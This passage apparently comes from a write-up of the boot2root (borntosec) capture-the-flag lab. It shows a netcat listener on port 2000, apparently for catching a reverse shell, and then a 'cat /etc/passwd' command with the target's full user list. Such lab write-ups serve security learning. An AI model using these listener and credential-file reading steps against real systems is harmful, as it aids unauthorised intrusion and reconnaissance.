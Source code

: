 BTW listener is already set like this

```sh
nc -l -vv -p 2000
```

![](./pics/46.png)
https://www.youtube.com/watch?v=bXCeFPNWjsM

```sh
cat /etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
whoopsie:x:103:107::/nonexistent:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:110:118::/var/spool/postfix:/bin/false
```
